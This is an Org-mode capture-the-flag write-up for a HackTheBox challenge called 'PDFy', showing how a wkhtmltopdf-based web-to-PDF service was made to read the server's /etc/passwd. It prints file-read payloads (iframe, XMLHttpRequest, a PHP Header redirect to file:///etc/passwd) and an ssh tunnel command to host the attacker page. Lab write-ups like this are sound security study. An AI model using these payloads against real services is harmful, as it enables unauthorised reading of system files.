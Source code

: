 :PROPERTIES:
:ID:       8cc78708-42bf-4db6-a342-cdcd72b59f93
:END:
#+TITLE: PDFy
#+AUTHOR: AsmArtisan256
#+DATE: 07-01-2025

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: pdfy

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT


This website has an input box that generates a PDF from a website! We can test
it fast just by typing https://google.com/:

#+DOWNLOADED: screenshot @ 2025-01-06 21:56:47
#+attr_org: :width 600px
[[file:writeup-img/2025-01-06_21-56-47_screenshot.png]]

Works pretty well. What if we just input some random non-existing website, like
https://gjrioaegjio.greajgrae/ ? An interesting popup appears and disappears
kind of fast on top of the page:


#+DOWNLOADED: screenshot @ 2025-01-06 21:58:17
#+attr_org: :width 600px
[[file:writeup-img/2025-01-06_21-58-17_screenshot.png]]

So this web application is just using =wkhtmltopdf= to convert websites to PDF.
Naturally, I was curious about the types of exploits using this program and I
found out that there are known [[https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/][file inclusion vulnerabilities]]. And oh boy,
wasn't this extremely annoying to exploit... I first started with a simple HTML
file with some common payloads to try and exploit this:

#+BEGIN_SRC html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>HTML5 Boilerplate</title>
  <link rel="stylesheet" href="styles.css">
</head>

<body>
  <h1>Page Title</h1>

    <!-- didnt work -->
    <div>
      <p>Report Heading</p>
      <iframe src="file:///etc/passwd" height="500" width="500">
      </iframe>
    </div>

    <!-- didnt work -->
  <script>
    x=new XMLHttpRequest;
    x.onload=function(){
    document.write(this.responseText)
    };
    x.open("GET","file:///etc/passwd");
    x.send();
  </script>
</body>

</html>
#+END_SRC

Before continuing, here's the thing... to actually make it work well, we have to
use some tunneling service so we can expose our =localhost= service to the
internet. So I ended using =localhost.run= to tunnel the server, be it a Python
server or PHP server, by using the following command:

#+BEGIN_SRC sh
ssh -R 80:localhost:8000 localhost.run
#+END_SRC

And I am mentioning PHP because nothing worked with the code above. So I fired
up a PHP server with the usual PHP code to try and read files:
=get_file_contents("/etc/passwd")=, or even =include("/etc/passwd")=. And they
actually worked, but the =/etc/passwd= file that was showing was *my* own file! But
then, by scrubbing for more information, I found out that the PHP =header=
function could be the solution, since it evaluates the file differently, and
will actually fetch the one from the HTB server:

#+BEGIN_SRC php
<!DOCTYPE html>
<html>
    <head>
        <title>PHP Test</title>
    </head>
    <body>
    <?php
        Header("location:file:///etc/passwd");
    ?>
    </body>
</html>
#+END_SRC

And /voilá/:

#+DOWNLOADED: screenshot @ 2025-01-07 00:22:12
#+attr_org: :width 600px
[[file:writeup-img/2025-01-07_00-22-12_screenshot.png]]

The flag is not shown, but it's in that exact file.


* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">07-01-2025</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT

